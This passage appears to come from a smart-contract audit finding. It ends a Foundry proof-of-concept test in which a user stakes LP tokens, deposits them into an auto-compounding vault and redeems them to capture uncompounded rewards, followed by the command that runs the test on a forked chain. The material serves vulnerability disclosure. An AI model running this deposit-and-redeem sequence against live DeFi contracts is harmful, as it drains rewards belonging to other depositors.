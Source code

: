 ```solidity
        _mockDai.approve(address(_pod1Peas), 950e18);
        _pod1Peas.addLiquidityV2( //Then he adds liquidity to get the LP tokens
            950e18,
            950e18,
            1000,
            block.timestamp
        );

        console.log("\n====== Bob stakes 950 lp ======");
        _v2Pool.approve(address(_spTKN), 950e18);
        _spTKN.stake(bob, 950e18); //The rewards from the pod are transferred to TokenRewards during staking because setShares is called when transfering the spTKNs
    
        console.log("\n====== Bob deposits 950 spTKNs ======");
        console.log("bob _spTKN before: ", _spTKN.balanceOf(bob));
        console.log("rewards in TokenRewards before: ", _peas.balanceOf(address(_tokenRewards)));
        console.log("rewards in AutoCompoundingPodLp before: ", _peas.balanceOf(address(_aspTKN1Peas)));
        _spTKN.approve(address(_aspTKN1Peas), 950e18);
        _aspTKN1Peas.deposit(950e18, bob);
        //This shows that the rewards from TokenRewards were transferred to AutoCompoundingLp but have not yet been compounded, allowing the attacker, who now also has aspTKNs, to receive a part of these rewards
        console.log("rewards in TokenRewards after: ", _peas.balanceOf(address(_tokenRewards)));
        console.log("rewards in AutoCompoundingPodLp after: ", _peas.balanceOf(address(_aspTKN1Peas)));

        console.log("\n====== Bob redeems 950 aspTKNs ======");
        _aspTKN1Peas.redeem(950e18, bob, bob);
        //If you subtract the spTKN balance that the attacker had before the attack, you can see that he now has more tokens
        console.log("bob _spTKN after: ", _spTKN.balanceOf(bob));

        //This shows that there are still some spTKNs as rewards, but there should actually be more because the attacker shouldn't have gotten any
        //The remaining rewards are for the account that has already been deposited into the aspTKN in the setup (see _deployAspTKNs in line 400)
        console.log("_aspTKN spTKN balance: ", _spTKN.balanceOf(address(_aspTKN1Peas)));
        vm.stopPrank();
    }
}
```
3. The POC can then be started with `forge test --mt testPoc -vv --fork-url <FORK_URL>`

---
### Example 2

**Auto Label:** Improper reward or state synchronization during critical operations enables attackers to manipulate rewards, inflate stakes, or freeze scores, leading to unfair advantage, inaccurate calculations, and denial-of-service.  

